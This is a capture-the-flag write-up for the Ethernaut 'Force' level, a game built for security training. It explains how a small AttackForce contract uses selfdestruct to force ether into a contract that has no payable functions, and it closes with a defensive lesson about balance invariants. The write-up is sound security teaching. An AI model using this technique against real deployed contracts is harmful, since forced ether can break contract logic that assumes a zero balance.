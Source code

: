 ```yaml
---
description: >-
  forcefully sending ether to a contract that doesn't have payable function,
  payable fallback() function, or receive() function.
---
```


# 7 - Force

Ethernaut Level7: [Force](https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### Goal of this level

* make the balance of the contract greater than zero

### What you should know before

* `selfdestruct`\
  ``-> see [here](https://www.alchemy.com/overviews/selfdestruct-solidity) and [here](https://www.youtube.com/watch?v=cODYglsn3bs)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

If you use `selfdestruct` you can forcefully send ether to any contract even if that contract doesn't have any method to receive either.

</details>

There are 3 ways that a contract can receive ether.

1. payable `function`
2. payable `fallback()`
3. `receive()`

But **`Force`** contract has none of them.

But we can forcefully send ether by using `selfdestruct`.

```solidity
contract AttackForce {
    address force;

    constructor(address _instanceAddr) payable {
        force = _instanceAddr;
    }

    function attack() external {
        selfdestruct(payable(force));
    }
}
```

Deploy `AttackForce` contract with some eth, and call `attack()` function.

Done! 😎

## Key Takeaway

* You can forcefully send ether using `selfdestruct`.
* So do not count on the invariant `address(this).balance == 0` for any contract logic.\

